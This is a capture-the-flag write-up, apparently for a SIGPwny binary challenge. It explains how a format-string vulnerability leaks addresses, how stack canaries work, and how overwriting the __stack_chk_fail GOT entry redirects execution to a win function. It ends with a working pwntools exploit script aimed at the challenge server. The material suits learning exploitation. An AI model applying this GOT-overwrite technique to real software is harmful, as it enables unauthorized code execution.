





[Source code](./handout/print_write)

For this challenge the goal is to execute the win function.  
Let's check the protections.  



With `No RELRO` we can write into the `GOT`    
On the `Dockerfile` I've added `gdb`, deleted all lines relative to the `Makefile` they didn't gave us to replicate the same environment running on the server. I've logged on it as `root` to run `gbd` just to be sure that what I was leaking with the `format string` vulnerability was trustworthy.   

So here something I need to mention is that compared to all previous challenges, `buf` variable is `4096` bytes (512 offset of 8 bytes) long on the stack. That means the offset we can test to leak values from the are from `1` to `6`(start offset of `buf` variable) and `518`(512+6) to whatever is the end.  

Also one of the hints of the challenges says `Overwrite the GOT entry for puts to point to win`.

The problem is:  





At `main+189` is the second printf `format string` vuln. Just after that, the `puts` function is called. If we overwrite the `GOT` of `puts` to points to win, at `main+201` puts call win, but in win puts is called also so puts calls win again and so one and so one. We get an infinite loop, the program crashes, and no flag for us :(  
I was stuck here for soooooo long.  
And then I've noticed a function at `main+226`, the `__stack_chk_fail` function. I've found by google searching that this function is triggered when the canary value is different from what it was set at the beginning of the program.    

### What is a canary ?
A canary is a random secret value placed on the stack between
the local buffer and the saved return address (saved RIP).

#### STACK LAYOUT
  [ buffer         ]  ← user input goes here  
  [ canary value   ]  ← random, set at function entry  
  [ saved RBP      ]  
  [ saved RIP      ]  ← return address  

#### HOW IT WORKS
  1. At function prologue  → CPU reads canary from fs:0x28 and writes it on the stack
  2. At function epilogue  → CPU reads it back and XORs with the original value in fs:0x28
  3. If result == 0 → values match → normal return ✅  
	    If result != 0 → buffer overflow detected → __stack_chk_fail() is called → abort ❌

#### WHY IT EXISTS
  To detect stack buffer overflows before they can hijack RIP.
  Any overflow that reaches saved RIP must first overwrite
  the canary → mismatch → program aborts before ret executes.


My thought was, if I can change the `__stack_chk_fail` GOT entry to points to `win`,find(or compute) the address of the `canary` in memory and overwrite it, I will be able to trigger the win function without need to overwrite `puts`

So I tested on the docker container different offset values to find some interesting leaks to get the `canary` address and the `main` address of the program (to compute the base address and derive all other addresses)

With trials and errors:  
1. `%525$p` leaks the main address
2. `%1$p` leaks `rsi` address and `canary_addr = rsi_addr + 0x36A8`  

Exploit script:

```python
from pwn import *

import argparse

def leak_hex_int(output):	
	import re
	# Match hex values of reasonable length (>= 4 chars to avoid noise)
	matches = re.findall(rb'0x[0-9a-fA-F]{4,}\b', output)
	return [int(m, 16) for m in matches]

  
FILE = "./challenge"
HOST = "chal.sigpwny.com"
PORT = 1372
OFFSET = 6

elf = ELF(FILE, checksec=False)
context.binary = FILE 

conn = remote(HOST, PORT)

payload = b"%525$p %1$p"
conn.sendlineafter(b"? ",payload)
out = conn.recvline()
 
main_addr = leak_hex_int(out)[0]
info(f"{hex(main_addr) = }")

base_addr = main_addr - elf.symbols["main"]
info(f"{hex(base_addr) = }")

elf.address = base_addr

win_addr = elf.symbols["win"]
info(f"{hex(win_addr) = }")

stack_check_fail = elf.got["__stack_chk_fail"]
info(f"{hex(stack_check_fail) = }")

rsi_addr = leak_hex_int(out)[1]
info(f"{hex(rsi_addr) = }")

canary_addr = rsi_addr + 0x36A8
info(f"{hex(canary_addr) = }")

# Write the win_add into stack_check_fail on the GOT and overwrite the value at the stack canary address with 0x0
payload = fmtstr_payload(6, {stack_check_fail: win_addr,canary_addr:0x0}, write_size='byte')

info(f"{len(payload) = }")
conn.sendline(payload)
conn.interactive()
```



